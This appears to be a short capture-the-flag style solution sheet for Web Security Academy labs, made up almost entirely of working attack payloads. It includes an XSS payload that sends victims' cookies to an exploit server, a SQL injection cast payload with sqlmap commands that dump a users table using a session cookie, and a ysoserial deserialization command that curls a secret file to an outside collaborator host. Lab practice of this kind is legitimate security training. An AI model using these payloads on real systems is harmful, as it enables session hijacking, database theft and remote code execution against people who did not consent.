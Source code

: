 1.

payload: `"-fetch('https://exploit-0ad8002e0436378180812af8014d0063'+decodeURIComponent('%2E')+'exploit-server'+decodeURIComponent('%2E')+'net/exploitabc?cookie='+document['cookie'])}//`

<script>
location='https://0a7c00030469134c80543acb00690098.web-security-academy.net/?SearchTerm=%22-fetch%28%27https%3A%2F%2Fexploit-0af70033040613b0804139e601000080%27%2BdecodeURIComponent%28%27%252E%27%29%2B%27exploit-server%27%2BdecodeURIComponent%28%27%252E%27%29%2B%27net%2Fexploitabc%3Fcookie%3D%27%2Bdocument%5B%27cookie%27%5D%29%7D%2F%2F'
</script>

2.
payload: `CAST((SELECT+password+FROM+users+LIMIT+1)+AS+int)`

tool

```bash
python sqlmap.py -u 'https://0a48002f03d9345f80cd039700ed00a0.web-security-academy.net/advanced_search?SearchTerm=a&organize_by=*&blogArtist=' --cookie='session=c73gpxIvoomYTmECIzBVyTl6ZVrDGOd3' --batch --level=5 --risk=3 --dbms="PostgreSQL"
```

```bash
python sqlmap.py -u 'https://0a48002f03d9345f80cd039700ed00a0.web-security-academy.net/advanced_search?SearchTerm=a&organize_by=*&blogArtist=' --cookie='session=c73gpxIvoomYTmECIzBVyTl6ZVrDGOd3' --batch --level=5 --risk=3 --dbms="PostgreSQL" --dbs
```

```bash
python sqlmap.py -u 'https://0a48002f03d9345f80cd039700ed00a0.web-security-academy.net/advanced_search?SearchTerm=a&organize_by=*&blogArtist=' --cookie='session=c73gpxIvoomYTmECIzBVyTl6ZVrDGOd3' --batch --level=5 --risk=3 --dbms="PostgreSQL" -D public --tables
```

```bash
python sqlmap.py -u 'https://0a48002f03d9345f80cd039700ed00a0.web-security-academy.net/advanced_search?SearchTerm=a&organize_by=*&blogArtist=' --cookie='session=c73gpxIvoomYTmECIzBVyTl6ZVrDGOd3' --batch --level=5 --risk=3 --dbms="PostgreSQL" -D public -T users --dump
```


3. 

payload 
```bash
java -jar ysoserial.jar CommonsCollections6 'curl -d @/home/carlos/secret ij5zpg5
74rhzawjanoer5ut3buhl5dt2.oastify.com' | gzip | base64 -w 0 > text.txt
```